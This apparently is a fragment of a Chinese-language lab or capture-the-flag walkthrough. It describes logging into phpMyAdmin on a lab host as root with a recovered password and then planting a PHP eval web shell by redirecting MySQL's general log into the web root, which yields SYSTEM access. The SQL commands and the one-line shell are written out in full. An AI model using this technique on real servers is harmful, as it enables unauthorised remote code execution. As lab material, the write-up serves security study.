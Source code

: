 密匙为：Qweasdzxc5

但是不知道怎么用

## phpmyadmin提权

1、由于枚举 10.10.10.141 的 80 端口，发现了 `http://10.10.10.141/phpmyadmin4.8.5/index.php`

试试用  root:Qweasdzxc5 登录

<img src=".\图片\Snipaste_2023-05-19_19-38-58.png" alt="Snipaste_2023-05-19_19-38-58" style="zoom:67%;" />

2、常规操作 phpmyadmin 后台 getshell

执行 sql ，写入日志到网站路径

```
#开启日志
set global general_log='on';
#设置日志位置为网站目录
set global general_log_file='C:\\phpstudy_pro\\WWW\\shell.php';#传个一句话
select '<?php @eval($_POST["pass"]); ?>';
```

成功写入 shell，还是 system 权限
